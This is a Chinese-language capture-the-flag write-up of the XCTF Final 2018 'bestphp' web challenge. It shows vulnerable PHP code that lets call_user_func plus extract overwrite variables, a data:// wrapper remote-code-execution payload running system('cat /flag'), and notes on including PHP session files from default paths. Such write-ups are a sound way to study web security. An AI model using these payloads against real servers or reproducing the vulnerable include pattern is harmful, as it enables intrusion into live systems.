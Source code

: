 ```php
<?php
$option='\';
```

## 693-XCTF Final 2018

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    ini_set('open_basedir', '/var/www/html');
    $file = 'function.php';
    $func = isset($_GET['function'])?$_GET['function']:'filters'; 
    call_user_func($func,$_GET);
    include($file);
    session_start();
    $_SESSION['name'] = $_POST['name'];
    if($_SESSION['name']=='admin'){
        header('location:admin.php');
    }
?>
```

`call_user_func($func,$_GET);`，可令`$func=extract`实现变量覆盖

从而实现对`$file`的控制，利用文件包含：`include($file);`

### 伪协议rce

那么直接利用伪协议rce：

```
?function=extract&file=data://text/plain,<?=system('cat /flag');?>
```

具体还是看链接吧[XCTF Final 2018 Web Writeup (Bestphp与PUBG详解) - 先知社区](https://xz.aliyun.com/t/3174)，学到很多：

但是因为open_basedir的原因，都不能成功=-=，还是rce了

### 文件包含session（x）

还是文件包含，只是包含的是session文件，

因为session的值可控：`$_SESSION['name'] = $_POST['name'];`

> session默认的保存位置
>
> ```
> /var/lib/php/sess_PHPSESSID
> /var/lib/php/sessions/sess_PHPSESSID
> 
> /var/lib/php5/sess_PHPSESSID
> /var/lib/php5/sessions/sess_PHPSESSID
> 
> /tmp/sess_PHPSESSID
> /tmp/sessions/sess_PHPSESSID
> ```
>
> 由于`ini_set('open_basedir', '/var/www/html:/tmp')`，我们包含不了`/var/lib/`下的session
>
> 但是我在tmp下也找不到自己的session，所以这里的session应该是在`/var/lib/`下
>
> 这里可以调用session_start函数，修改session的位置
